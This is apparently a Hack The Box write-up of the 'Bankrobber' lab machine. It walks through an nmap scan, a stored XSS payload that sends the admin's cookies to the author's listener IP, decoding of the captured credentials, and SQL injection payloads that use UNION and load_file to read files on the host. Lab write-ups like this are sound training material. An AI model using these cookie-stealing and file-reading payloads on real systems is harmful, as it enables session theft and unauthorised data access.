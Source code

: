 ```yaml
---
title: bankrobber user 
author: fieldraccoon
date: 2020-07-09
categories: [hack-the-box, windows]
tags: [hack-the-box, sqli, xss, xsrf, javascript, insane, burpsuite]
math: true
---
```


Bankrobber overall was a very unstable box and due to that it was very fiddly to get a shell and get root so i will go over the methodology of the xss and sqli in depth for the user section.

Of course we start off with an nmap:
```bash
kali@kali:~/boxes/bankrobber$ nmap -sC -sV -o nmap 10.10.10.154
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 06:13 EDT
Nmap scan report for 10.10.10.154
Host is up (0.034s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h03m36s, deviation: 0s, median: 1h03m36s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-08T11:17:56
|_  start_date: 2020-07-08T11:07:41
```

It showed us port `3306` on `mysql` and `445` on `smb`, we tried to connect to both of theese but were noth closed via a password protection.

Port `80` however was indeed usefull.

When visited with the site i made an account with the credentials `field:field` and loged in. Here we were greeted with a transaction page which in our case is bitcoin. There is 3 boxes for information, an id box a recipitent id box and a comment. The comment box will be abused here.

When we give it a test with random values we get a poppup about an admin reviewing it, indicating that there is an admin on the website that we can possibily exploit. 

We create a file on our box with the contents:
`hello.php`:
```php
<?php ?>
```
This file can have any contents it just needs to be a file on the server.

Next we will try and steal the admin credentials by using this file as a connection to our box and then with a listener try and read the cookies.

On the bitcoin bank website we fill out the form with any id and in the contents section we add this:
```javascript
<script>new Image().src="http://10.10.xx.xx/hello.php?output="+document.cookie;</script>
```
This simple XSS will make a connectin to our ip address and try connect to the file but in fact will be redirected by a listener and reveal the contents of the request.

We send this request and on our box we get a connection back:

```bash
ali@kali:~/boxes/bankrobber$ sudo nc -nlvp 80
[sudo] password for kali:                                                                                          
listening on [any] 80 ...                                                                                          
connect to [10.10.xx.xx] from (UNKNOWN) [10.10.10.154] 49744                                                        
GET /hello.php?output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1                
Referer: http://localhost/admin/index.php                                                                          
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1 
Accept: */*                                                                                                        
Connection: Keep-Alive                                                                                             
Accept-Encoding: gzip, deflate                                                                                     
Accept-Language: nl-NL,en,*                                                                                        
Host: 10.10.xx.xx
```

We can see here that we are given a line of credentials
```bash
output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1
```

We decode the username and the password from base64 and read the creds in plaintext.
```bash
kali@kali:~/boxes/bankrobber$ echo YWRtaW4= | base64 -d                                                            
adminkali@kali:~/boxes/bankrobber$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d                                       
Hopelessromantickali@kali:~/boxes/bankrobber$
```

Then we can login with `admin:Hopelessromantic` and get access to the admin panel.

From here we can experiment with sqli to read the backdoor.php which is in control of the backdoor command on the site and what we will use to get a shell(although not in this post.)

When we type `1' or 1=1 -- -` we get presented with a panel of all the users being admin and our own user.

We can now contruct an SQL query to read the user flag.

```sql
10' UNION SELECT 1,load_file('c:\\users\\cortin\\desktop\\user.txt'),3;-- -
```
We can also cahnge the file path and read any file that we want. including the backdoor.php file which helps us build our js script to pop a shell.

Thanks for reading hope that you enjoyed.
